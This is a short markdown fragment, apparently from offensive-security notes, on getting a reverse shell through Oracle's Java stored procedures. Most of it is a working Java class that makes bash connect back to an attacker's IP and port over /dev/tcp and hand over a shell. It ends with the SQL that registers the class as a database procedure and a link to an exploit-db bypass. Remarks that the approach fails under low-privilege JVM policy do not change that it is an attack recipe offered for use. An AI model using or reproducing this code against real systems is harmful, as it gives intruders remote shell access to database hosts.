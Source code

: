 # Java

This approach will not work as the Oracle JVM implements fine grain policy-based security to control access to the OS and filesystem.  Executing this procedure from a low-permissioned account results in errors. (some old database bypasses are [available](https://www.exploit-db.com/exploits/33601/) however).

```java
import java.io.*;

public class ReverseShell {
 public static void getConnection(String ip, String port) throws InterruptedException, IOException {
   Runtime r = Runtime.getRuntime();
   Process p = r.exec(new String[]{"/bin/bash","-c","0<&126-;exec 126<>/dev/tcp/" + ip + "/" + port + ";/bin/bash <&126 >&126 2>&126"});
   System.out.println(p.toString());
   p.waitFor();
 }
}
```

Create or replace procedure reverse_shell `(p_ip IN VARCHAR2, p_port IN VARCHAR2)` IS language java name `'ReverseShell.getConnection(java.lang.String, java.lang.String)';`.